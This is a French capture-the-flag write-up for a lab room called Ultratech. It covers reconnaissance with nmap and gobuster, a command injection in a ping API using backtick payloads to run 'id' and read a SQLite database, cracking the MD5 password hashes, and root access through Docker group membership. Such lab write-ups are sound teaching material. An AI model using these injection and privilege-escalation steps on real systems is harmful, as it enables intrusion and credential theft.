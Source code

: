 # Ultratech
Une room sympa mais très (trop ?) simple :)

# Info
On va vérifier la page robots.txt qui affiche bien souvent des informations utile !
```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
Il y a un site map dans un fichier texte, on va le check:
```
/
/index.html
/what.html
/partners.html
```
La page /partners.html ouvre un page qui demande un login.
# Enumeration
## Nmap
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-09 03:57 EDT
Nmap scan report for 10.10.32.31
Host is up (0.040s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.53 seconds
```
## Gobuster
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.32.31:31331/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.32.31:31331/css/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.32.31:31331/js/]
/javascript           (Status: 301) [Size: 324] [--> http://10.10.32.31:31331/javascript/]
/server-status        (Status: 403) [Size: 302]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## RestAPI 
On vois avec Burpsuite que l'API envoi des ping vers lui-même:
```
GET /ping?ip=10.10.32.31 HTTP/1.1
[...]
```
Je vais tenter une injection de commande....

## Command Injection
Les commandes sont filtré mais je trouve comment bypass :

L'url suivante :
```
http://10.10.32.31:8081/ping?ip=127.0.0.1|`id`
```
Fonctionne et donne ce résultat :
```
ping: groups=1002(www): Temporary failure in name resolution 
```
C'est tronquer, mais ca fonctionne. Je trouve ainsi la base de données : **utech.db.sqlite**

On va essaye de la lire :
```
http://10.10.32.31:8081/ping?ip=127.0.0.1|`cat utech.db.sqlite`
```
```
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7******)Madmin0d0ea5111e3c1def594c1684e3******: Parameter string not correctly encoded 
```
Nous avons donc ici 2 hash.
```
r00tf357a0c52799563c7c7b76c1e7******
admin0d0ea5111e3c1def594c1684e3*****
```
Ils sont en MD5, les voici une fois crack :
```
admin : mr******
r00t : n******
```
En les testant sur la page partner on obtiens ce résultat :
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

# Exploit & post exploit ;)
On peux aller sur le FTP mais celui-ci est vide.
On peux se connecté en SSH seulement avec le compte de r00t.

L'user **r00t** fait parti du groupe **docker**
On va tenter une privesc via dockers.

Pour ce faire on va déjà lister les images :
```
r00t@ultratech-prod:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
```
Ensuite on va démarrer un shell root sur notre image:
```
r00t@ultratech-prod:/tmp$ docker run -it -v /:/host/ 495d6437fc1e chroot /host/ bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@d2312f28b9a2:/#
```
Nous voila root. Le flag est la clé ssh qui ce trouve dans **/root/.ssh/id_rsa**
